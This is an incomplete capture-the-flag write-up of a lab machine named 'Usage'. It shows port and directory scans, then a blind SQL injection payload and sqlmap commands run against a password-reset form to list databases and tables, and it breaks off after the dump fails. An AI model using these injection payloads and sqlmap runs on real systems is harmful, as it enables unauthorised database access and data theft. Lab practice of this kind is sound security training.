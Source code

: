 ## Linux Machine Usage

--[+] :  Target IP :

      >> 10.10.11.18
     
## Recon 
--[1] : Nmap
```nmap
		PORT   STATE SERVICE
		22/tcp open  ssh
		80/tcp open  http
```
	>> Port 80 appears to be running laravel
	
--[2] :  Gobuster 
      >> http://usage.htb/ 503 and 404 only 

--[3] :  Page subdomains :

      >> http://admin.usage.htb/

## Foothold
--[+] :  Blind sql injection on http://usage.htb/forget-password  :
      >> payload : ' AND 1=1;-- -
      >> sqlmap req.txt --risk=3 --level=5 --batch --dbms=mysql --dbs

available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

      >> sqlmap req.txt --risk=3 --level=5 --batch -D usage_blog --tables
      >> sqlmap req.txt --risk=3 --level=5 --batch -D usage_blog -T users
      
      dump is fucked up lets see another time ... maybe machine down 
       
--[+] :  Target IP :

      >> 
--[+] :  Target IP :

      >> 
